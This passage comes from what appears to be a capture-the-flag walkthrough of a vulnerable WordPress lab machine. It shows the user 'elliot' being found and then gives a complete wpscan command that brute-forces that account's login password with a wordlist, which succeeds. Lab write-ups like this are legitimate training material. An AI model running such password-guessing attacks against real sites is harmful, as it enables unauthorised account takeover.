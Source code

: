 And we find `elliot` as a valid username. Indeed:

![elliot](img/elliot.png)

##### Bruteforcing elliott password

With `wpscan`, we can try to find his password:

```bash
$ wpscan --url https://192.168.1.25/ --disable-tls-checks --password-attack wp-login -U elliot -P fsociety_filtered.dic -t 100 
```

And we succeed:

![credentials.png](img/creds.png)
